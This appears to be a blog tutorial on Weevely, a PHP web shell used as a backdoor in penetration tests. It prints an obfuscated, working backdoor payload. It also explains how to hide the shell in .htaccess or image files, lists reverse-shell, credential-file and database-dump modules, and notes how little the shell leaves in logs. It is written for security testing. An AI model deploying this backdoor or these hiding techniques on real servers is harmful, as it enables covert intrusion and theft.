 ```yaml
---
title: Weevely
tags:
- backdoor
- remote command execution
see_also:
  -
    link: Introduction to pentesting
    url: http://blog.10degres.net/introduction-to-pentesting/
---
```

Weevely is a PHP command line web shell usually used as a backdoor while performing the post exploitation phase of a penetration test. 
By default in Kali Linux, the installed version 1.1 isn't supported anymore but version 3 is available on [GitHub](https://github.com/epinna/weevely3 "Weevely on GitHub"){:class="flashlink" target="_blank"}.

Generate the backdoor:

`weevely generate.<mode> <password> <path>`

The password is optionnal but it's important to protect your customer from other users because an unwanted access can easily lead to a full access on the server with privileges escalation. There is three kinds of backdoor available but this functionnality seems to have been removed in version 3.

- **htaccess**: a single `.htaccess` file is created containing the malicious code and the right Apache directive so that all `.htaccess` files are considered as regular PHP script
- **img**: giving an existing image, Weevely will concatenate the binary datas and the malicious code, plus it also creates an `.htaccess` 
to tell Apache that the image should be considered as a regular PHP script (that means both files should be uploaded on the target server)
- **php**: this is the default, a single PHP script is generated

<!--more-->

Example:

[![Weevely generate](/images/weevely-generate.png)](/images/weevely-generate.png)

A `sessions` directory has also been created to log every command. 
No matter what creation mode you choosed the obfuscated generated PHP code looks like this:

~~~php
<?php
$ztqi = str_replace("h","","hshtrh_rhehphlhahche");
$hule="am9pbihhcnJhehrV9zbGhrljZSgkYSwkhrYhrygkYhrSktMykpKShrkpO2VjaG8gJzwvJhry4kay4nhrPic7fQ==";
$xhmv="PSdlcnRhr5JztlY2hvIhrCc8Jy4kay4nPihrc7ZXhrZhbChiYXNlNjRfZGVjbhr2RlKHBhryZWdfchrmVhrwbGFjZ";
$ezko="ShhcnJheSgnL1hrteXHc9XHNdLycsJy9chrcy8nKSwgYXJyYXkohrJyhrcshrJyhrsnKSwg";
$kyjf="JGM9J2NvdW50JzskYT0kX0NPT0tJRTtpZihyZXNldCgkYhrSk9PSdheicgJihrYgJGMoJGEpPjMpeyRr";
$tjbu = $ztqi("g", "", "basgeg6g4g_gdgegcgode");
$plri = $ztqi("y","","cyreyatye_yfuynycytyiyon");
$pigj = $plri('', $tjbu($ztqi("hr", "", $kyjf.$xhmv.$ezko.$hule))); $pigj();
?>
~~~

There is different ways to inject the backdoor on the target server: file upload, SQL injection and so on... 
Once you have infected your target, you can connect to the client with the password you choosed:

[![Weevely connect](/images/weevely-connect.png)](/images/weevely-connect.png)

Running `:help `will display the list of all modules available or the detailed usage informations of the given module.

| Command              | Description |
| -------------------- | ------------- |
| :audit.systemfiles   | Find wrong system files permissions |
| :audit.phpconf       | Check php security configurations |
| :audit.mapwebfiles   | Crawl and enumerate web folders files permissions |
| :audit.userfiles     | Guess files with wrong permissions in users home folders |
| :audit.etcpasswd     | Enumerate users and /etc/passwd content |
| :shell.sh            | Execute system shell command |
| :shell.php           | Execute PHP statement |
| :system.info         | Collect system informations |
| :backdoor.reversetcp | Send reverse TCP shell |
| :backdoor.tcp        | Open a shell on TCP port |
| :bruteforce.sqlusers | Bruteforce all SQL users |
| :bruteforce.sql      | Bruteforce SQL username |
| :file.edit           | Edit remote file |
| :file.mount          | Mount remote filesystem using HTTPfs |
| :file.webdownload    | Download web URL to remote filesystem |
| :file.touch          | Change file timestamps |
| :file.upload2web     | Upload binary/ascii file into remote web folders and guess corresponding url |
| :file.download       | Download binary/ascii files from the remote filesystem |
| :file.enum           | Enumerate remote paths |
| :file.read           | Read remote file |
| :file.upload         | Upload binary/ascii file into remote filesystem |
| :file.check          | Check remote files type, md5 and permission |
| :file.rm             | Remove remote files and folders |
| :file.ls             | List directory contents |
| :sql.console         | Run SQL console or execute single queries |
| :sql.dump            | Get SQL database dump |
| :net.phpproxy        | Install remote PHP proxy |
| :net.ifaces          | Print interfaces addresses |
| :net.scan            | Port scan open TCP ports |
| :net.proxy           | Install and run Proxy to tunnel traffic through target |
| :find.suidsgid       | Find files with superuser flags |
| :find.name           | Find files with matching name |
| :find.perms          | Find files with write, read, execute permissions |

Another good point for Weevely is the verbosity, the remote agent is very low footprint. Below my Apache logs after running some commands:

[![Weevely traces](/images/weevely-traces.png)](/images/weevely-traces.png)

As you may notice the user-agent has also been randomized wich is usually a good idea...

